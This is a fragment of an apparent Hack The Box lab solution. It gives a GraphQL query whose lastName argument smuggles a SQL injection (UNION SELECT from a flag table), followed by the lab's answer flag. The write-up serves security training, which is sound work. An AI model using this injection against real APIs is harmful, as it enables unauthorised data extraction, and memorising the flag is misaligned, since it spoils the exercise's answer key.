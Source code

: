 ```graphql
{
  customerByName(apiKey: "0711a879ed751e63330a78a4b195bbad", lastName: "Antony' UNION SELECT 1,2,flag,4 FROM flag-- -") {
	  id
    firstName
    lastName
    address
  }
}
```

![[HTB Solutions/Others/z. images/be9fec348c4c8895db9ed5975fe1a62c_MD5.jpg]]

Answer: `HTB{f1d663c11e6db634e1c9403d0e8e3a35}`